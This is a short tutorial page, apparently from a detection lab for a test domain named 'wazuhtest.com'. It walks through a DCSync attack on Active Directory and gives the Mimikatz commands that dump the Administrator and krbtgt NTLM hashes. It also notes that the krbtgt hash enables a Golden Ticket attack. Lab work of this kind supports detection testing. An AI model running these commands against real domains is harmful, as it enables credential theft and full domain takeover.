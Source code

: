 
### 💣 **1. DCSync Attack**

DCSync is an attack technique that allows an attacker to simulate the behavior of a Domain Controller (DC) to extract sensitive data, like user credentials, from Active Directory.

**📌 Prerequisites:**

* Must be run on the **Windows 10** machine using an account with sufficient privileges (e.g., **Domain Admin** or an account with the **Replicating Directory Changes** permission).

**⚙️ Steps:**

1. **Run Mimikatz as Administrator:**

```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:wazuhtest.com /user:Administrator
lsadump::dcsync /domain:wazuhtest.com /user:krbtgt
```

2. **Check for Successful Attack:**

   * If the command returns the **NTLM hash** for the **KRBTGT** account, the attack is successful.
   * This hash is a critical component for performing a **Golden Ticket** attack.

![DCSync Attack](/assets/image-4.png)